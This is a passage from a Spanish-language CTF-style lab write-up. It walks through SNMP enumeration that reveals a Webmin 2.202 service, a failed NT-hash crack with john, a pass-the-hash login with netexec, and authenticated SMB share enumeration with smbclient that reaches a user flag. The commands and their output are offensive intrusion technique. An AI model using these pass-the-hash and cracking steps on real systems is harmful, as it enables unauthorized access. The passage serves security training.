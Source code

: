 Un poco mas abajo podemos confirmar que existe una instancia de `Webmin`
```console
HOST-RESOURCES-MIB::hrSWRunParameters.1202 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1212 = STRING: "/usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf"
```

Un poco mas abajo también podemos ver los paquetes instalados en el sistema y podemos ver que la versión de `Webmin` instalada es la `2.202`
```console
HOST-RESOURCES-MIB::hrSWInstalledName.556 = STRING: "webmin_2.202_all"
```

Volviendo al hash encontrado, podemos intentar crackearlo con `john` pero no tenemos suerte.
```console
john -w=/usr/share/wordlists/rockyou.txt hash --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-01-02 15:31) 0g/s 17929Kp/s 17929Kc/s 17929KC/s      markinho..*7¡Vamos!
Session completed.
```

# SMB Enumeration (authenticated)
## Pass The Hash
Pero bueno, como tenemos el usuario podemos hacer Pass The Hash, podemos comprobar que el hash es válido con `netexec`
```console
nxc smb 192.168.2.8 -u crow -H 'F9FE0310AF66C797A73CB60B1953FCD7' --port 4445
SMB         192.168.2.8     4445   ssuhkqAV         [*] NpzPONLO (name:ssuhkqAV) (domain:lcmJGdXI) (signing:False) (SMBv1:True)
SMB         192.168.2.8     4445   ssuhkqAV         [+] lcmJGdXI\crow:F9FE0310AF66C797A73CB60B1953FCD7
```

## Enumerate all!
Ahora con `smbclient` podemos enumerar los recursos y vemos que existe un recurso llamado `RESOURCE` con un comentario que pone `backup`
```console
smbclient -L \\192.168.2.8 -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            Disk
	RESOURCE        Disk      backup
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.2.8 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

Enumerando el recurso `IPC$` nos encontramos un directorio personal de un usuario donde podemos ver la flag de usuario.
```console
smbclient "\\\\192.168.2.8\\IPC$" -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .selected_editor                   AN       66  Tue Aug  1 18:16:16 2023
  .profile                           AN      807  Sun Jan 15 13:58:06 2023
  .bash_history                      AN        0  Thu Jan  2 14:58:51 2025
  .bash_logout                       AN      220  Sun Jan 15 13:58:06 2023
  user.txt                           AN       33  Fri Nov 29 14:33:18 2024
  .bashrc                            AN     3526  Sun Jan 15 13:58:06 2023
```
